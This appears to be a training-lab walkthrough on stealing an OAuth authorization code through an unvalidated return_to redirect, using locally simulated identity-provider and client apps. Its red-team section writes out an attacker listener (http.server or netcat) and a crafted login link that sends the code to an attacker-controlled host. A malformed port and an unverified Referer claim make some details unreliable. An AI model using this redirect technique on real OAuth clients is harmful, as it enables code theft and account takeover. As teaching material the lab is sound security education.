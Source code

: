 # 5. Vulnerability: OAuth Exploitation (Web - Weak Redirect URI)

## 5.1. Concept/Description

OAuth 2.0 is a framework enabling applications (Clients) to obtain limited access to user accounts on an HTTP service (
like a login provider or Identity Provider - IdP), without sharing the user's credentials. A common flow involves the
Client redirecting the user to the IdP for authentication. After authentication, the IdP redirects the user back to a
pre-registered redirect_uri on the Client, appending an authorization code. The Client then exchanges this code for an
access token. A weak redirect URI vulnerability occurs if the Client or IdP improperly validates the redirect_uri
parameter provided in the initial request. An attacker might craft a malicious redirect_uri (or include a parameter that
influences the final redirect) pointing to an attacker-controlled server. If the IdP redirects the user (with the code)
back to a compromised URI, or if the Client itself performs an unsafe redirect after receiving the code, the attacker
can steal the authorization code.

## 5.2 Setup

### Step#1: Install Python & Flask

```bash
  sudo apt update && sudo apt install python3 python3-pip && pip3 install Flask
```

### Step#2: Simulate Identity Provider Server

Use this on terminal #1

```bash
    python3 idp.py
```

### Step#3: Simulate Vulnerable Client Application

Use this on terminal #2

```bash
    python3 client_app.py
```

### Step#4: Ensure that there is no conflict and both applications are running

### Step#5 (Linux - Optional): Firewall Configuration

```bash
    sudo ufw allow 5000/tcp 
    sudo ufw allow 5001/tcp
```

## 5.3 Discovery (Read Team)

1. Observe Flow: Access the client app (http://<target_ip>:5000). Click the "Login with OAuth" link. Observe the browser
   being redirected to the IdP (:5001/auth) with a redirect_uri parameter containing http://<target_ip>:
   5000/callback....
2. Analyze Parameters: Notice the return_to parameter within the redirect_uri sent to the IdP, and also potentially
   present in the initial login link on the client app.
3. Hypothesize: Suspect that the return_to parameter might control the final redirection destination after
   authentication and that the authorization code might be leaked during this final redirect.

## 5.4 Manual Exploit (Red Team)

1. Setup Listener: Start a simple HTTP server on the attacker machine to capture the request (replace attacker_ip with
   your machine's IP accessible by the victim browser).

    ```bash
        python3 -m http.server 8000 --bind <attacker_ip>
        # Alternatively, use nc -lvp 8000.15 
    ```

2. Craft Malicious Link: Create the URL that the victim needs to click. This link targets the client app's login
   endpoint but includes the attacker's server in the return_to parameter.
   ```bash
        curl "http://<target_ip>:5000/login?return_to=http://<attacker_ip>:8000"
    ```
3. Simulate Victim Action: Open the crafted link in a browser.
4. Authentication Flow:
    - The browser hits
      `http://<target_ip>:5000/login?return_to=http://<attacker_ip>:8000.`
    - The client app redirects to the IdP
      `(http://<target_ip>:5001/auth?client_id=...&redirect_uri=http://<target_ip>:5000/callback?return_to=http://<attacker_ip>:8000).`
    - Click "Grant Access" on the simulated IdP page.
    - The IdP redirects back to the client app's callback:
      `http://<target_ip>:5000/callback?return_to=http://<attacker_ip>:8000&code=flag{n0t_s0_s3cur3_0auth_c0d3}`
    - Vulnerability Triggered: The client app's /callback function reads the return_to parameter (
      `http://<attacker_ip>:8000`) and immediately redirects the browser to that address.
5. Capture Code: Check the logs of the attacker's listener (`python3 -m http.server` or `nc`). The browser's request to
   `http://<attacker_ip>:8000` will contain the Referer header, which includes the full URL from which the redirect
   originated,
   including the authorization code.
    - Example log line from Python server: "GET / HTTP/1.1" 200 - Referer:
      `http://<target_ip>:5000/callback?return_to=http://<attacker_ip>:8000&code=flag{n0t_s0_s3cur3_0auth_c0d3}`
    - Extract the flag (flag{n0t_s0_s3cur3_0auth_c0d3}) from the Referer header. 
